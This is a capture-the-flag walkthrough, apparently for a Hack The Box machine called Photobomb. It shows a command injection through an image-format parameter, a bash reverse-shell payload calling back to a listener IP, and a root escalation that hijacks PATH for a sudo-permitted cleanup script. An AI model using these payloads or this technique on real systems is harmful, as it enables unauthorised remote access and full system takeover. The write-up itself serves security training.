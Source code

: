 # Photobomb box

## enum

the web for printing image with input
- img name: LFI
- run exiftool with the output image (printed img). We see an intersting info that Little CMS. It has LFI vul in searchsploit. but current web run on ruby, not php. That maybe it not work.
- type, size: command injection
- i try to do an command injection. that I change the file type to `filetype=png.txt`.
	- then the output file is .txt file. And hint to me that the web use `ImageMagick` to convert images.
	- test command injection
		- make python http server listen
			```bash
			python3 -m http.server 81
			```
		- request with
			```
			filetype=png`curl+http://MyIP:81`
			```
		- -> we recieve request.


## user

- get rev-shell with bash command (***remember to url encode your payload. I lost many time to try many shell, and figure out that I need to encode the payload :D***):
	```
	filetype=png`bash -c 'exec+bash+-i+%26>/dev/tcp/10.10.14.74/81+<%261'`
	```
- we get `wizard@photobomb` with the reverse shell.


## pri-esc

- list out command run with sudo with:
	```bash
	sudo -l
	```
	```
	User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
	```
	```sh
	# file: /opt/cleanup.sh
	#!/bin/bash
	. /opt/.bashrc
	cd /home/wizard/photobomb

	# clean up log files
	if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
	then
	/bin/cat log/photobomb.log > log/photobomb.log.old
	/usr/bin/truncate -s0 log/photobomb.log
	fi

	# protect the priceless originals
	find source_images -type f -name '*.jpg' -exec chown root:root {} \;
	```
	- every command use with absolute-path except of find :D. We'll use the PATH technique.
	- but now we run with sudo so we need to do [something more](https://unix.stackexchange.com/questions/83191/how-to-make-sudo-preserve-path).
		```bash
		sudo PATH=`pwd`:$PATH /opt/cleanup.sh
		```
		- we can try this locally with [my test](exploit/pri-esc/test-suPath/)
